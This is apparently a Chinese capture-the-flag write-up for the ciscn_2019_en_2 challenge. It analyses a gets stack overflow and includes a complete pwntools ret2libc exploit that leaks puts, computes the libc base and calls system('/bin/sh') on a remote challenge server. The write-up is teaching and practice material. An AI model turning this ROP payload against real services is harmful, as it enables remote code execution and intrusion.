



# 知识点

ret2libc


# 题目分析

1. 查看保护情况，64位程序，开启NX保护。

   ```bash
       Arch:     amd64-64-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x400000)
   ```

2. 拖入IDA分析，发现main函数通过begin函数打印菜单。

   

   

3. 跟入encrypt函数，发现存在gets栈溢出漏洞。

   

4. 没有提供后门函数，提供了puts函数，可以通过puts函数泄露libc，然后ret2libc即可。


# EXP

```python
from pwn import *

context(arch = 'amd64', os = 'linux', log_level = 'debug')

io = process('./ciscn_2019_en_2')
io = remote('node4.buuoj.cn', '29554')
elf = ELF('./ciscn_2019_en_2')
libc = ELF('./libc-2.27.so')

pop_rdi = 0x400c83
ret = 0x4006b9
main = elf.sym['_start']
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']

# leak puts
io.sendlineafter('choice!\n', '1')
payload = 'A' * 0x50 + 'deadbeef' + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
io.sendlineafter('encrypted\n', payload)
puts_real = u64(io.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
success('puts_real = ' + hex(puts_real))

# libc
libc_base = puts_real - libc.sym['puts']
system = libc_base + libc.sym['system']
binsh = libc_base + libc.search('/bin/sh').next()

# ret2libc
io.sendlineafter('choice!\n', '1')
payload = 'A' * 0x50 + 'deadbeef' + p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system) + p64(main)
io.sendlineafter('encrypted\n', payload)

io.interactive()
```

